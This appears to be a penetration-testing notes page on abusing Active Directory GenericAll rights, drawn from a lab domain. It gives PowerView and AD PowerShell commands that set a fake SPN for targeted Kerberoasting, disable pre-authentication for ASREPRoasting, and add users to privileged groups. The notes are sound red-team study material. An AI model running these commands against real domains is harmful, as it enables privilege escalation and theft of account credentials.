

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# GenericAll

## Information

**Full control** over the target account.

| Over a User                                                    | Over a Group                                                 |
| -------------------------------------------------------------- | ------------------------------------------------------------ |
| [Change the account's password](forcechangepassword.md)        | [Add user to the group](genericall.md#add-user-to-the-group) |
| [Targeted Kerberoasting](genericall.md#targeted-kerberoasting) |                                                              |
| [Targeted ASREPRoasting](genericall.md#targeted-asreproasting) |                                                              |

## Exploitation

### Over a User

<figure><figcaption><p>Figure 1: The Information Technology group has GenericAll rights over the user adunn.</p></figcaption></figure>

#### Targeted Kerberoasting

When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account.


```powershell
# credentialed object for the currently owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
 
# create a fake SPN for the target user
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```


Once the SPN is assigned to the target account, we should be able to [Kerberoast](../attacks/kerberoasting.md) it.

#### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/asreproasting.md) it.

```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```



```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```



```powershell
# set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# check that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```



An example of the above method can be found [here](../../../../boxes/boxes/insane/multimaster.md#genericwrite-rights).

#### Change user's password

Check [here](forcechangepassword.md).

### Over a Group

#### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># add user to the domain admins group
</strong><strong>net group '&#x3C;GROUP>' &#x3C;USER> /add /domain
</strong>Add-ADGroupMember -Identity '&#x3C;GROUP>' -Members &#x3C;USER>
Add-DomainGroupMember -Identity '&#x3C;GROUP>' -Members '&#x3C;USER>'
</code></pre>

## Resources






